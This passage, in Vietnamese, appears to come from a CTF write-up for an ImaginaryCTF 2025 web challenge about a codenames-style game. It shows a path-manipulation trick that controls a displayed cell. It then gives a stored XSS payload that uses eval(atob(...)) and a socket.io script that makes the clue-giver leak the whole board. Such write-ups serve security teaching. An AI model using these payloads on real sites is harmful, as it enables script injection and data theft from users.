 Ta nhận ra rằng, mình có thể thao túng giá trị của 1 cell bằng cách đặt username là `<thứ mình muốn hiển thị>.txt`, sau đó chọn ngôn ngữ là `/app/profiles/<thứ mình muốn hiển thị>` và join game để nó hiển thị ra màn hình.

Đã có kết luận trên rồi, hãy thử với 1 payload xss xem, payload là ```<img src=0 onerror='eval(atob(`YWxlcnQoMSk=`))'>```

<img src="https://raw.githubusercontent.com/ductohno/personal_blog/refs/heads/main/src/content/posts/imaginaryctf2025/image/testxss_codename2.png" width="1200px">

Bây giờ ta sẽ craft đoạn mã js tự động gửi đáp án khi tôi ghé vào, ở đây tôi sẽ chạy đoạn mã js sau để test (mọi người nên xài ```eval(atob(`<base 64 of the payload>`))``` )

```js
c=io("/",{query:{code:code}});c.on("connect",()=>c.emit("join"));c.on("start_game",d=>c.emit("give_clue",{clue:JSON.stringify(d),number:100}));
```

Và kết quả trả về là

<img src="https://raw.githubusercontent.com/ductohno/personal_blog/refs/heads/main/src/content/posts/imaginaryctf2025/image/jstest_codename2.png" width="1200px">

Đoạn mã trên sẽ vừa khiến cho `clue_giver` phải gửi toàn bộ bảng màu của phòng, mà còn khiến ta có thể tăng số lượt chơi trên lên 100. Tại sao phải lòng vòng như thế, đó là bởi vì server sẽ bị 500 nếu ta đặt tên quá dài. 
